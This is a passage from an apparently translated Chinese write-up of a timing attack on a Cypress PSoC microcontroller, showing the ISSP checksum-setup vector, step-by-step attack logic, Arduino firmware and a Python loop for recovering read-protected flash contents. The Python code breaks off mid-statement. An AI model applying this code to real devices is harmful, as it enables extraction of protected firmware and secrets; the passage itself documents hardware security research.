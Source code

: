 ISSP手册给我们提供了下面这个CHECKSUM-SETUP向量：

```
[DE E0 1C] wrreg CPU_F (f7), 0x00
[DE C0 1C] wrreg SP (f6), 0x00
[9F 07 5C] wrmem KEY1, 0x3A
[9F 20 7C] wrmem KEY2, 0x03
[DE A0 1C] wrreg PCh (f5), 0x00
[DE 80 7C] wrreg PCl (f4), 0x03
[9F 70 1C] wrmem POINTER, 0x80
[DF 26 1C] wrreg opc1 (f9), 0x30
[DF 48 1C] wrreg opc2 (fa), 0x40
[9F 40 1C] wrmem BLOCKID, 0x00
[DE 00 FC] wrreg A (f0), 0x07
[DF 00 1C] wrreg opc0 (f8), 0x00
[DF E2 5C] wrreg CPU_SCR0 (ff), 0x12
```

而接下来代码会调用SROM函数0x07（Checksum函数），所以完整攻击的理论步骤如下：
1. 使用ISSP与设备连接；
1. 使用CHECKSUM-SETUP向量计算校验和；
1. 时间T后重置CPU；
1. 读取RAM来获取当前的校验值C；
1. 重复第三和第四步，每次增加时间T（增加一点点）；
<li>通过连续计算（减法）校验和C恢复闪存内容；<br>
实现该攻击的Arduino代码其实非常简单：</li>
```
case Cmnd_STK_START_CSUM:
checksum_delay = ((uint32_t)getch())&lt;&lt;24;
checksum_delay |= ((uint32_t)getch())&lt;&lt;16;
checksum_delay |= ((uint32_t)getch())&lt;&lt;8;
checksum_delay |= getch();
if(checksum_delay &gt; 10000) `{`
ms_delay = checksum_delay/1000;
checksum_delay = checksum_delay%1000;
`}`
else `{`
ms_delay = 0;
`}`
send_checksum_v();
if(checksum_delay)
delayMicroseconds(checksum_delay);
delay(ms_delay);
start_pmode();
```
1. 代码首先读取了checkum_delay；
1. 然后开始计算校验和（send_checksum_v）；
1. 等待一定的时间；
1. 将PSoC重置为prog模式（不需要发送初始向量）；
最终的Python攻击代码如下：

```
for delay in range(0, 150000): # delay in microseconds
for i in range(0, 10): # number of reads for each delay
try:
reset_psoc(quiet=True) # reset and enter prog mode
send_vectors() # send init vectors
ser.write("x85"+struct.pack("&gt;I", delay)) # do checksum + reset after delay
res = ser.read(1) # read arduino ACK
except Exception as e:
print e
ser.close()
os.system("timeout -s KILL 1s picocom -b 115200 /dev/ttyACM0 2&gt;&amp;1 &gt; /dev/null")
ser = serial.Serial('/dev/ttyACM0', 115200, timeout=0.5) # open serial port
continue
print "%05d %02X %02X %02X" % (delay, # read RAM bytes
```